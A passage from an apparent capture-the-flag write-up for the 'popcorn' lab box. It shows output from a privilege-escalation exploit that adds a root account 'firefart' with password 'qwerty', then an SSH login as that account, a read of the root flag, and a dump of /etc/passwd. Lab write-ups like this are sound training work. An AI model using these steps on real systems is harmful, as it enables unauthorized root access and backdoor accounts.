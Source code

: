 ```

Complete line:
firefart:fiDBsH4uAQ9kk:0:0:pwned:/root:/bin/bash

mmap: b783a000
```

now that we have ran the privEsc code successfully, it has added firefart as root with password "qwerty"  
so we can just ssh as firefart  
```
root@kali:~# ssh firefart@10.10.10.6
firefart@10.10.10.6's password: 
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/

  System information as of Fri Mar 13 09:48:21 EET 2020

  System load: 3.75              Memory usage: 15%   Processes:       122
  Usage of /:  6.9% of 14.80GB   Swap usage:   0%    Users logged in: 0

  Graph this data and manage this system at https://landscape.canonical.com/

Last login: Sun Sep 24 18:01:48 2017
firefart@popcorn:~# whoami
firefart

firefart@popcorn:~# cat /root/root.txt 
f122331023a9393319a0370129fd9b14

firefart@popcorn:~# cat /etc/passwd
firefart:fiDBsH4uAQ9kk:0:0:pwned:/root:/bin/bash
/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
landscape:x:102:105::/var/lib/landscape:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
george:x:1000:1000:George Papagiannopoulos,,,:/home/george:/bin/bash
mysql:x:104:113:MySQL Server,,,:/var/lib/mysql:/bin/false
```


